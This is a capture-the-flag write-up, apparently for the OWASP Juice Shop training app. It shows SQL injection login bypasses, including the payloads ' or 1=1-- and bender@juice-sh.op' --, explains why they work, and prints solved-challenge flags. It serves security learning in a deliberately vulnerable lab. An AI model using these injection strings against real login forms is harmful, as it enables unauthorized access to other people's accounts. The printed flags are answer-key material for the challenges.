 
We will now change the "**a**" next to the email to: ' or 1=1-- and forward it to the server.

![](https://i.imgur.com/tPFJnmC.png)

**Why does this work?**

1. The character **'** will close the brackets in the SQL query
2. '**OR**' in a SQL statement will return true if either side of it is true. As 1=1 is always true, the whole statement is true. Thus it will tell the server that the email is valid, and log us into user id 0, which happens to be the administrator account.
3. The -- character is used in SQL to comment out data, any restrictions on the login will no longer work as they are interpreted as a comment. This is like the # and // comment in python and javascript respectively.

---

When practicing i was able to login into the application as admin using these values

```
Username: a'or 1=1--

Pass: a
```

And I also got a flag

```
You successfully solved a challenge: Login Admin (Log in with the administrator's user account.)X

  

32a5e0f21372bcc1000a6088b93b458e41f0e02a
```

---

Also able to log in into bender's account using 

```
You successfully solved a challenge: Login Bender (Log in with Bender's user account.)X

  

fb364762a3c102b2db932069c0e6b78e738d4066
```


```
bender@juice-sh.op' --
```



But why don't we put the 1=1?

Well, as the email address is valid (which will return true), we do not need to force it to be true. Thus we are able to use **'--** to bypass the login system. Note the **1=1** can be used when the email or username is not known or invalid.



